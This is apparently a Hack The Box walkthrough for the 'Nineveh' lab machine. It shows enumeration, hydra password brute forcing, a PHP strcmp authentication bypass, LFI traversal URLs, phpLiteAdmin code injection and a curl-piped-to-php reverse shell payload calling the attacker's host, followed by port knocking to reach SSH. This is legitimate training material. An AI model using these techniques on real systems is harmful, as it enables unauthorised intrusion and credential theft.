


# Nineveh

.JPG>)

## Overview

The following exploits are covered for obtaining the flags on this target: ​

* User - Hidden login forms; hydra to bute force forms; LFI to RCE via phpLiteAdmin PHP code injection exploit (EDB-ID:24044) OR PHPinfo. SSH keys in image file; Steganography; Port knocking.
* Root - Hidden cron job running "chkrootkit" as "root", which is vulnerable to privilege escalation (CVE-2014-0476) (EDB-ID:33899)

## Enumeration:

### Nmap

Let's begin with a basic nmap scan for all TCP ports:

```
└─$ nmap -p- 10.10.10.43
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-29 08:17 EST
Nmap scan report for 10.10.10.43
Host is up (0.017s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT    STATE SERVICE
80/tcp  open  http
443/tcp open  https

Nmap done: 1 IP address (1 host up) scanned in 112.39 seconds
                                                                    
```

Now that we have a list of open ports, let's run a more targeted nmap scan:

```
└─$ sudo nmap -sS -sV -sC -A -p 80,443 10.10.10.43 -n 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-29 08:22 EST
Nmap scan report for 10.10.10.43
Host is up (0.016s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.12 (92%), Linux 3.13 (92%), Linux 3.13 or 4.2 (92%), Linux 3.16 (92%), Linux 3.16 - 4.6 (92%), Linux 3.2 - 4.9 (92%), Linux 3.8 - 3.11 (92%), Linux 4.2 (92%), Linux 4.4 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   17.15 ms 10.10.14.1
2   17.66 ms 10.10.10.43

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.24 seconds
                                                                 
```

### Whatweb

Let's run whatweb against the target to see which technologies are being used for the webapp.

```
└─$ whatweb http://10.10.10.43/
http://10.10.10.43/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43]                                                                                               
                                                                                                                  
└─$ whatweb https://10.10.10.43/
https://10.10.10.43/ [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43]                                                                                              
                    
```

### Nikto

Let's run a Nikto scan against the target.

```
└─$ nikto -host http://10.10.10.43/ -C all
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.43
+ Target Hostname:    10.10.10.43
+ Target Port:        80
+ Start Time:         2021-11-29 08:24:28 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: b2, size: 5535e4e04002a, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /info.php: Output from the phpinfo() function was found.
+ OSVDB-3233: /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information.
+ OSVDB-3233: /icons/README: Apache default file found.
+ OSVDB-5292: /info.php?file=http://cirt.net/rfiinc.txt?: RFI from RSnake's list (http://ha.ckers.org/weird/rfi-locations.dat) or from http://osvdb.org/
+ 26470 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2021-11-29 08:33:39 (GMT-5) (551 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                                              
└─$ nikto -host https://10.10.10.43/ -C all
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.43
+ Target Hostname:    10.10.10.43
+ Target Port:        443
---------------------------------------------------------------------------
+ SSL Info:        Subject:  /C=GR/ST=Athens/L=Athens/O=HackTheBox Ltd/OU=Support/CN=nineveh.htb/emailAddress=admin@nineveh.htb
                   Ciphers:  ECDHE-RSA-AES256-GCM-SHA384
                   Issuer:   /C=GR/ST=Athens/L=Athens/O=HackTheBox Ltd/OU=Support/CN=nineveh.htb/emailAddress=admin@nineveh.htb
+ Start Time:         2021-11-29 08:34:12 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The site uses SSL and the Strict-Transport-Security HTTP header is not defined.
+ The site uses SSL and Expect-CT header is not present.
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Hostname '10.10.10.43' does not match certificate's names: nineveh.htb
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the secure flag
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3092: /db/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 26470 requests: 0 error(s) and 12 item(s) reported on remote host
+ End Time:           2021-11-29 09:06:41 (GMT-5) (1949 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
                                      
```

### Gobuster

Let's run a gobuster scan against the target.

```
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.43/ -q -f -t 100 -x php,sh,bak,txt
/icons/ (Status: 403)
/info.php (Status: 200)
/department/ (Status: 200)
/server-status/ (Status: 403)

└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.10.43/ -q -f -t 30 -x php,sh,bak,txt -k
/icons/ (Status: 403)
/db/ (Status: 200)
/server-status/ (Status: 403)
/secure_notes/ (Status: 200)

```

### Dirb

Let's run a dirb scan against the target.

code

### Wfuzz

​ Let's run a wfuzz scan against the target.

code ​

## Website exploration

#### Review the source code for each page

Let's have a look at the page source and make a note of anything interesting:

* Nothing in the page source on either site at ports 80 and 443.
* There is a certificate for the site on port 443, with a hostname of nineveh.htb, and there is also a couple of routes, /db and /secure\_notes
* There is a phpinfo page and a /department route on the site on port 80

#### Review the source code for any scripts that are being used on each page

Let's have a look at the scripts using the browser dev tools and make a note of anything interesting:

* Nothing of interest found

#### ​Browsing

The site at [http://10.10.10.43/](http://10.10.10.43) is a static html page with some text.

.JPG>)

There is also a "phpinfo" page on port 80:

.JPG>)

The /department route is another login page:

.JPG>)

In the page source we find the following comment:

> @admin! MySQL is been installed.. please fix the login page! \~amrois

The site at [https://10.10.10.43/](https://10.10.10.43) contains only an image, ninevehForAll.png:

.JPG>)

Save the image to our attacker box which will allow us to examine it with "exiftool".

We also found the /db/ route on the port 443 site, which is a login page for "phpliteadmin":

.JPG>)

We try the following basic passwords, but none of them work:

> admin
>
> adminadmin
>
> password
>
> Password
>
> password1
>
> Password1
>
> nineveh

The /secure\_notes page also only contains an image on it, nineveh.png:

.JPG>)

Save the image to our attacker box which will allow us to examine it with "exiftool".

## Steganography

Two of the web pages only contain an image on them, which is kind of odd. Let's examine these images to see if they contain any hidden data within them.

For more information about this subject, check out the following page:



### Exiftool

First, let's examine the two files with "exiftool".



```
└─$ exiftool ninevehForAll.png 
ExifTool Version Number         : 12.32
File Name                       : ninevehForAll.png
Directory                       : .
File Size                       : 548 KiB
File Modification Date/Time     : 2021:11:29 08:28:09-05:00
File Access Date/Time           : 2021:11:29 08:28:09-05:00
File Inode Change Date/Time     : 2021:11:29 08:28:09-05:00
File Permissions                : -rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1336
Image Height                    : 508
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8
Software                        : Shutter
Image Size                      : 1336x508
Megapixels                      : 0.679
                                                                                                                  
└─$ exiftool nineveh.png      
ExifTool Version Number         : 12.32
File Name                       : nineveh.png
Directory                       : .
File Size                       : 2.8 MiB
File Modification Date/Time     : 2021:11:29 09:22:20-05:00
File Access Date/Time           : 2021:11:29 09:22:20-05:00
File Inode Change Date/Time     : 2021:11:29 09:22:20-05:00
File Permissions                : -rwxrwxrwx
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1497
Image Height                    : 746
Bit Depth                       : 8
Color Type                      : RGB
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Significant Bits                : 8 8 8
Software                        : Shutter
Warning                         : [minor] Trailer data after PNG IEND chunk
Image Size                      : 1497x746
Megapixels                      : 1.1
                                                    
```

The first image does not appear to contain any data, however, the second image does. From the output above, we can see that there is a warning message that tells us that there is some trailing data in the file.

> Warning : \[minor] Trailer data after PNG IEND chunk

### Binwalk

To extract this data, we'll use a tool called "binwalk", which is installed on Kali by default:



```
└─$ binwalk -Me nineveh.png 

Scan Time:     2021-11-29 09:42:06
Target File:   /htb/Nineveh_10.10.10.43/nineveh.png
MD5 Checksum:  353b8f5a4578e4472c686b6e1f15c808
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PNG image, 1497 x 746, 8-bit/color RGB, non-interlaced
84            0x54            Zlib compressed data, best compression
2881744       0x2BF8D0        POSIX tar archive (GNU)


Scan Time:     2021-11-29 09:42:07
Target File:   /htb/Nineveh_10.10.10.43/_nineveh.png.extracted/54
MD5 Checksum:  d41d8cd98f00b204e9800998ecf8427e
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------


Scan Time:     2021-11-29 09:42:07
Target File:   /htb/Nineveh_10.10.10.43/_nineveh.png.extracted/secret/nineveh.priv
MD5 Checksum:  f426d661f94b16292efc810ebb7ea305
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             PEM RSA private key


Scan Time:     2021-11-29 09:42:07
Target File:   /htb/Nineveh_10.10.10.43/_nineveh.png.extracted/secret/nineveh.pub
MD5 Checksum:  6b60618d207ad97e76664174e805cfda
Signatures:    411

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             OpenSSH RSA public key

└─$ ls -laR _nineveh.png.extracted 
_nineveh.png.extracted:
total 2839
drwxrwxrwx 1 kali root       0 Nov 29 09:42 .
drwxrwxrwx 1 kali root    4096 Nov 29 09:42 ..
-rwxrwxrwx 1 kali root   10240 Nov 29 09:42 2BF8D0.tar
-rwxrwxrwx 1 kali root       0 Nov 29 09:42 54
-rwxrwxrwx 1 kali root 2891900 Nov 29 09:42 54.zlib
drwxrwxrwx 1 kali root       0 Nov 29 09:42 secret

_nineveh.png.extracted/secret:
total 3
drwxrwxrwx 1 kali root    0 Nov 29 09:42 .
drwxrwxrwx 1 kali root    0 Nov 29 09:42 ..
-rwxrwxrwx 1 kali root 1675 Nov 29 09:42 nineveh.priv
-rwxrwxrwx 1 kali root  400 Nov 29 09:42 nineveh.pub
                                                                                                                           
```

We have recovered a few files from the image, including a pair of private and public SSH keys. The nmap scan did not find port 22 to be open on the target system, and so we'll make a note of these keys and move on for now.

## Hydra

Let's see if we can brute force the two login forms.

We'll start with the login form at [http://10.10.10.43/department/login.php](http://10.10.10.43/department/login.php), and we'll use "hydra" to brute force it.



We'll use the following command:

> hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^\&password=^PASS^:Invalid Password"

```
└─$ hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.43 http-post-form "/department/login.php:username=^USER^&password=^PASS^:Invalid Password"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-29 11:20:32
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9437 login tries (l:1/p:9437), ~590 tries per task
[DATA] attacking http-post-form://10.10.10.43:80/department/login.php:username=^USER^&password=^PASS^:Invalid Password
[STATUS] 3363.00 tries/min, 3363 tries in 00:01h, 6074 to do in 00:02h, 16 active
[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-29 11:21:55
                                                                                   
```

It doesn't take long for "hydra" to find the password.

## PHP Type Juggling

An alternative menthod of gaining access to the site at [ttp://10.10.10.43/department/login.php](http://10.10.10.43/department/manage.php) is through a PHP type juggling vulnerability which can be used to bypass authentication.

Basically, when using "$\_GET" or "$\_POST" in a statement to gather input from a user, the data returned can be one of two types, a "string" or an "array".

If the developer uses the "strcmp" function to compare the value entered by the user with another string, such as a hard coded password, the result returned is "0" if there is a match, and something else if there isn't.

```
php > echo strcmp("test", "test");
0
php > echo strcmp("test", "test1");
-1
php > echo strcmp("test", "test2");
-1
php > 
```

Since the "strcmp" function returns an integer value, we can test if the resulting value matches what we would expect to see for a correct password, in this case "0". This can be accomplished by testing the result of the evaluation using a boolean comparison check. If we get an output of "1", the comparison is "True", therefore the password entered is correct, and the user can be logged in. If the output of the boolean comparison is "0" or "False", then we send an error message back and deny the login attempt.

```
php > if (strcmp("test", "test") == 0) { echo "True"; } else { echo "False"; }
True
php > if (strcmp("test", "test1") == 0) { echo "True"; } else { echo "False"; }
False
php > 
```

As shown above, we can use the boolean logic in a branch construct (if else) to determine whether a user should be logged in or not.

If we change the user input from a string to an array, we get an interesting result. The statement evaluates to "True", even though the array and the string clearly do not match. This is the vulnerability.

```
php > if (strcmp([], "test") == 0) { echo "True"; } else { echo "False"; }
PHP Warning:  strcmp() expects parameter 1 to be string, array given in php shell code on line 1
True
php > 
```

As we can see above, we get a warning, but the statement still evaluates to "True", and thus we are able to bypass the authentication.

Let's attempt a login with "admin:admin", and then head over to BURP and find the POST request in the Proxy --> HTTP history tab, right click on it and send it to the repeater. We'll modify the request as shown below, and then click "Go".

> username=admin\&password\[]=

.JPG>)

We get the same error message we saw earlier, but we are also being redirected to the "manage.php" page. If we refresh our browser, we can confirm we have been logged in and thus we have successfully bypassed the authentication mechanism.

.JPG>)

For more detailed explanations with further examples see the "Resources" section.

## Local File Inclusion

Let's test the creds found by hydra ("admin:1q2w3e4r5t") at [http://10.10.10.43/department/login.php](http://10.10.10.43/department/manage.php). The creds work, and we are logged in to the following page:

> [http://10.10.10.43/department/manage.php](http://10.10.10.43/department/manage.php)

.JPG>)

If we click on "notes", we get another message from "amrois":

> [http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt](http://10.10.10.43/department/manage.php?notes=files/ninevehNotes.txt)

.JPG>)

Let's see if we can read local files:

> [http://10.10.10.43/department/manage.php?notes=../../../../../../../../etc/passwd](http://10.10.10.43/department/manage.php?notes=../../../../../../../../etc/passwd)

We get the following error:

> No Note is selected.

The error is interesting, because it's telling us that the result needs to contain a "Note". There may be some string evaluation being done on the input to the "notes" variable which requires some sort of "Note" to be in the string.

Let's try the following:

> [http://10.10.10.43/department/manage.php?notes=ninevehNotes.txt/../../../../../../etc/passwd](http://10.10.10.43/department/manage.php?notes=ninevehNotes.txt/../../../../../../etc/passwd)

We get the same error:

> No Note is selected.

Let's try again with a slightly modifed version of the above (add a slash at the beginning of the value string):

[http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../../../etc/passwd](http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../../../etc/passwd)


This time it works, and we now have LFI on the target.

We still need to find a way to get code execution though, as without that we won't be able to get a shell on the target. Let's move on to the phpLiteAdmin page next, as perhaps we could get code execution from there.

## phpLiteAdmin

Let's use "hydra" against the phpLiteAdmin login page at [https://10.10.10.43/db/index.php](https://10.10.10.43/db/index.php) with the following command:

> hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^\&remember=yes\&login=Log+In\&proc\_login=true:Incorrect password"

```
└─$ hydra -l admin -P /usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt 10.10.10.43 https-post-form "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-29 11:26:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9437 login tries (l:1/p:9437), ~590 tries per task
[DATA] attacking http-post-forms://10.10.10.43:443/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password
[443][http-post-form] host: 10.10.10.43   login: admin   password: password123
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-11-29 11:27:28
                                                                                         
```

&#x20;It doesn't take "hydra" long to find the password (password123), which we use to successfully login to the site:

.JPG>)

## Gaining Access - phpLiteAdmin & LFI

Let's check the exploit database for any vulnerabilities for phpLiteAdmin:

```
└─$ searchsploit phpliteadmin                                                                               255 ⨯
--------------------------------------------------- ---------------------------------
 Exploit Title                                     |  Path
--------------------------------------------------- ---------------------------------
phpLiteAdmin - 'table' SQL Injection               | php/webapps/38228.txt
phpLiteAdmin 1.1 - Multiple Vulnerabilities        | php/webapps/37515.txt
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection     | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities      | php/webapps/39714.txt
--------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
                    
```

Let's have a look at the "Remote PHP Code Injection" exploit.

> An Attacker can create a sqlite Database with a php extension and insert PHP Code as text fields. When done the Attacker can execute it simply by access the database file with the Webbrowser.

To exploit this vulnerability, we need to do the following:

* Create a database and give it a name ending in .php
* &#x20;Create a table inside the new database.
* Add a text field with a default value which contains our PHP code.
* Locate and execute the database file via a browser --> we can use the LFI for this

Create a new database:

.JPG>)

Create a new table inside the new database, which, as shown below, is being stored in "/var/tmp/cmd.php".

.JPG>)

Add a text field with a default value which contains our PHP code.


Let's use the LFI to access the "/var/tmp/cmd.php" file via the browser:

> [http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=id](http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=id)

> Parse error: syntax error, unexpected 'cmd' (T\_STRING), expecting ']' in /var/tmp/cmd.php on line

A google search for "syntax error, unexpected 'cmd' (T\_STRING), expecting ']'" finds a post on stackexchange, which talks about quotation marks being the problem for the example giving by the original poster.



Let's remove the table and re-add it with the following "Default value":


Note that we have replaced the single quotes around cmd with double quotes.

Let's test it:

> [http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=id](http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=id)

.JPG>)

Now that we have command execution, let's copy a PHP reverse shell to our working directory (we used the following one which is included in Kali at /usr/share/webshells/php/php-reverse-shell.php) and start a python3 web server.

Next, start a netcat listener, and use the following payload which will download our PHP script and execute it:

> [http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=curl%2010.10.14.6/rshell.php|php](http://10.10.10.43/department/manage.php?notes=/ninevehNotes.txt/../../../../var/tmp/cmd.php\&cmd=curl%2010.10.14.6/rshell.php|php)

In our a shell as "www-data".

```
└─$ nc -nvlp 8888                                                                                           255 ⨯
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::8888
Ncat: Listening on 0.0.0.0:8888
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:45000.
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 07:20:19 up  4:53,  0 users,  load average: 0.01, 0.14, 0.20
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Let's upgrade our shell using python3, and gather some system information.

```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@nineveh:/$ uname -a;cat /etc/*-release;netstat -antp
uname -a;cat /etc/*-release;netstat -antp
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=16.04
DISTRIB_CODENAME=xenial
DISTRIB_DESCRIPTION="Ubuntu 16.04.2 LTS"
NAME="Ubuntu"
VERSION="16.04.2 LTS (Xenial Xerus)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 16.04.2 LTS"
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -               
tcp        0    848 10.10.10.43:45000       10.10.14.6:8888         ESTABLISHED 5124/php        
tcp        0      0 10.10.10.43:80          10.10.14.6:35342        ESTABLISHED -               
tcp6       0      0 :::22                   :::*                    LISTEN      -               
www-data@nineveh:/$ 
```

We see that the target is listening on port 22, however, our nmap scan didn't find it. Let's try another scan, this time we'll use the TCP connect scan.

```
└─$ nmap -sT -p 22 10.10.10.43        
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 08:26 EST
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.014s latency).

PORT   STATE    SERVICE
22/tcp filtered ssh

Nmap done: 1 IP address (1 host up) scanned in 0.31 seconds

```

The output confirms the port is listening, but also that it is filtered.

Let's have a look at which services are running, which may help us identify what type of filtering in being done:

```
www-data@nineveh:/$ ps auxw   
ps auxw
USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...
root       507  0.0  0.1  94776  1620 ?        Ss   02:26   0:00 /sbin/lvmetad -f
root       514  0.0  0.0      0     0 ?        S<   02:26   0:00 [rdma_cm]
root       516  0.0  0.4  44712  4216 ?        Ss   02:26   0:00 /lib/systemd/systemd-udevd
root       570  0.0  1.0 194440 10300 ?        Ssl  02:26   0:08 /usr/bin/vmtoolsd
systemd+   638  0.0  0.2 100328  2572 ?        Ssl  02:26   0:00 /lib/systemd/systemd-timesyncd
root      1019  0.0  0.1   4404  1292 ?        Ss   02:26   0:00 /usr/sbin/acpid
message+  1022  0.0  0.3  42896  3684 ?        Ss   02:26   0:00 /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfi
root      1029  0.0  0.1  20104  1136 ?        Ss   02:26   0:00 /lib/systemd/systemd-logind
root      1030  0.0  0.9  85440  9596 ?        Ss   02:26   0:00 /usr/bin/VGAuthService
root      1039  0.4  0.5 628576  5456 ?        Ssl  02:26   1:21 /usr/bin/lxcfs /var/lib/lxcfs/
root      1041  0.0  0.6 275772  6300 ?        Ssl  02:26   0:00 /usr/lib/accountsservice/accounts-daemon
root      1047  0.0  0.2  29012  2968 ?        Ss   02:26   0:00 /usr/sbin/cron -f
syslog    1050  0.0  0.3 256404  3292 ?        Ssl  02:26   0:00 /usr/sbin/rsyslogd -n
daemon    1051  0.0  0.2  26048  2180 ?        Ss   02:26   0:00 /usr/sbin/atd -f
root      1055  0.0  2.0 263820 20612 ?        Ssl  02:26   0:00 /usr/lib/snapd/snapd
root      1085  0.0  0.0  13380   164 ?        Ss   02:26   0:00 /sbin/mdadm --monitor --pid-file /run/mdadm/monitor.pid --daemonise
root      1098  0.0  0.6 277184  6120 ?        Ssl  02:26   0:00 /usr/lib/policykit-1/polkitd --no-debug
root      1254  0.0  0.5  65524  5440 ?        Ss   02:26   0:00 /usr/sbin/sshd -D
root      1274  0.0  0.0   5228   160 ?        Ss   02:26   0:00 /sbin/iscsid
root      1275  0.0  0.3   5728  3524 ?        S<Ls 02:26   0:01 /sbin/iscsid
root      1282  0.9  0.2   8756  2224 ?        Ss   02:26   2:58 /usr/sbin/knockd -d -i ens160
root      1341  0.0  0.1  15944  1864 tty1     Ss+  02:26   0:00 /sbin/agetty --noclear tty1 linux
root      1372  0.0  2.6 270312 27400 ?        Ss   02:26   0:00 /usr/sbin/apache2 -k start
root      2881  0.0  0.0      0     0 ?        S    06:25   0:00 [kworker/0:2]
www-data  3081  0.0  1.6 271388 17244 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
www-data  3082  0.0  1.7 271596 18048 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
www-data  3085  0.0  1.6 271388 16732 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
www-data  3086  0.0  1.6 271388 16816 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
www-data  3092  0.0  1.6 271388 16644 ?        S    06:25   0:00 /usr/sbin/apache2 -k start
www-data  5121  0.0  0.0      0     0 ?        Z    07:20   0:00 [sh] <defunct>
www-data  5124  0.0  0.7 139860  7708 ?        Ss   07:20   0:00 php
www-data  5125  0.0  0.0   4512   716 ?        S    07:20   0:00 sh -c uname -a; w; id; /bin/sh -i
www-data  5129  0.0  0.0   4512   764 ?        S    07:20   0:00 /bin/sh -i
root      7199  0.0  0.0      0     0 ?        S    02:32   0:00 [kworker/0:0]
www-data  9915  0.0  0.8  35836  8608 ?        S    07:25   0:00 python3 -c import pty; pty.spawn("/bin/bash")
www-data  9916  0.0  0.3  18224  3328 pts/0    Ss   07:25   0:00 /bin/bash
www-data 20457  0.0  0.2  34428  2892 pts/0    R+   07:36   0:00 ps auxw
www-data 25991  0.0  1.6 271388 16636 ?        S    07:08   0:00 /usr/sbin/apache2 -k start
www-data@nineveh:/$ 

```

We see that root is running the "/usr/sbin/knockd -d -i ens160" process, which is a port-knock server.



### SSH & Port Knocking

Let's see if we can read the configuration file for "knockd".

```
www-data@nineveh:/$ ls -la /etc/knockd.conf
ls -la /etc/knockd.conf
-rw-r--r-- 1 root root 355 Dec 17  2020 /etc/knockd.conf
www-data@nineveh:/$ cat /etc/knockd.conf
cat /etc/knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
www-data@nineveh:/$ 
```

The configuration contains the port knocking sequence that will allow us to SSH to the target. When the system receives the correct sequence on port 22, it will dynamically add the connecting IP address to an iptables rule that will allow SSH connections for it.

We can use a number of tools to do this including netcat, nmap and so on. We'll install "knockd" on out attacker box and use the included "knock" program to open the SSH port on the target for us. We can then use the private key file we found earlier to SSH to the target.

First, install the "knockd" package:

> sudo apt install knockd

Next, let's run the program with the sequence against the target:

```
└─$ knock 10.10.10.43 571 290 911
                                                                                                                  
└─$ nmap -sT -p 22 10.10.10.43   
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-30 08:45 EST
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up (0.015s latency).

PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
                                                             
```

We run nmap after the port knocking and we can see that the SSH port is now open for us.

Let's connect:

```
└─$ ssh -i ~/Downloads/nineveh/amrois.key amrois@10.10.10.43
The authenticity of host '10.10.10.43 (10.10.10.43)' can't be established.
